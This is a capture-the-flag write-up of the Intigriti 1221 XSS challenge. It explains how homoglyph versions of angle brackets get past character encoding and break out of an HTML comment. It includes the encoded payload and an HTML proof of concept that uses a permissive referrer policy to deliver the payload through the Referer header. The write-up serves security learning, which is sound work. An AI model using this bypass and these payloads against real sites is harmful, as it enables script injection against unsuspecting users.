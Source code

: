 ```yaml
---
title:      Intigriti - XSS Challenge 1221
author:     Bruno Halltari
pubDate:       December 27 2021 19:11:00
description:    Homoglyph XSS
categories: Intigriti web exploitation
heroImage: /writeup_images/intigriti21.png
tags:
 - Intigriti
 - Web Exploitation

---
```


## Let's start

The challenge comes with an input field and a parameter called " Stay open " to avoid repeating an animation, first of all I tried to insert a simple payload like ```<script>alert(document.domain)</script>``` to understand where the starting point was.

```html
<h4 id="punchline">Result:  alert(document.domain)
<!-- Referer: https://challenge-1221.intigriti.io/challenge/index.php?payload= -->
</h4>
```
From the source, you can see two pieces of information, first of all the content is reflected inside an html comment.
This is really important because with a simple payload like ```--><script>alert(document.domain)</script>``` we can escape from the comment and execute our xss payload, 
but there is a problem,  you can also see thar the characters ```<``` and ```>``` are encoded.

At this point I tried to think of various bypasses until I came up with an idea based on a previously played ctf.

## Homoglyph characters
Homoglyph are character that look alike but are not the same, so it's possible to use characters that looks the same but are interpreted 
differently from the server. 
this is really important because we can use this type of characters to bypass the control on ```<``` and ```>```
Here you can see some examples: https://github.com/codebox/homoglyph/blob/master/raw_data/chars.txt

## Final Payload

To build the final payload I simply used Homoglyph characters regarding the ```<``` and the ```>```, in this way I was able to close the html comment and escape in order to execute XSS.
To be sure, I url encoded the whole payload:

```
https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5
```

Just to be clear, clicking the link will not execute the xss, but you will need to enter ```--﹥﹤script﹥alert(document.domain)﹤/script﹥``` inside the input field ( we will see after how to not make this case a self-xss ), and the pop up will appear.
In this way i was able to close the html comment in order to get out and execute my payload, as you can see from the source code:
```html
<h4 id="punchline">Result: xss
<!-- Referer: https://painreigns.github.io/xmasxss.html?payload=--><script>alert(document.domain)</script>
"-->"
</h4>
```


## Final Poc

Now that we know how to execute the xss it's not over, in fact the scenario described is that of a Self-XSS, which is no good.
To avoid this problem, I wrote this simple POC:

```html
<html>
  <body>
    <a href="https://challenge-1221.intigriti.io/challenge/index.php?payload=xss" referrerpolicy="unsafe-url">Click here </a>
  </body>
</html>
```

The only interesting part is the ```referrerpolicy="unsafe-url"``` parameter that is needed to send the origin, path, and query string when performing any request, regardless of security.
This means that this policy will leak potentially-private information (in this case our payload) from HTTPS resource URLs to insecure origins, without this parameter it would not be possible to populate the referrer header from an external origin and execute XSS.


The last step is to host our code and insert the payload described above in the url:

```https://mydomain/xmasxss.html?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5```